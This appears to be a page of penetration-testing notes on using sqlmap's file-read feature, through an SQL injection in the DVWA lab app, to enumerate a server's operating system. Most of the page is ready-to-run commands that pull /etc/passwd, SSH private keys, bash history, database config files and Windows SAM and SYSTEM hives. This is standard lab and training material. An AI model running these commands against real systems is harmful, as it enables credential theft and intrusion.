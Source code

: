 # 04 - OS Enumeration

## 4.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 4.2 - General

- Enumerate hostname

```
$ sqlmap "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --hostname
```
## 4.3 - Linux

### 4.3.1 - Basic Information

- Enumerating user accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/networks"
```

- DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/version"
```

### 4.3.2 - Credentials

- Retrieve SSH keys

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/id_rsa"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/id_rsa"
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/var/www/html/dvwa/config.php"
```

- Retrieve history commands. You can find more in the [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials|privilege escalation credentials]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/home/<username>/.ssh/.bash_history"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/root/.ssh/.bash_history"
```

### 4.3.3 - Privilege Escalation

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/crontab"
```

### 4.3.4 - Config Files

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/ssh/sshd_config"
```

### 4.3.5 - Hardware

- Check uptime

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/uptime"
```

- Enumerate mounted drives and network shares.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/etc/fstab"
```

- Enumerate CPU cores

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="/proc/cpuinfo"
```

## 4.4 - Windows

TODO: Provide examples for windows OS enumeration using `--file-read`

### 4.4.1 - Basic Information

- DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/drivers/etc/hosts"
```

### 4.4.2 - Credentials

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/Repair/SAM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/Repair/SYSTEM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/security"
           
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/system"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="C:/Windows/System32/config/sam"
```

---
## References

- [SQLMap Read File on the Server](https://rioasmara.com/2020/05/25/sqlmap-read-file-on-the-server/)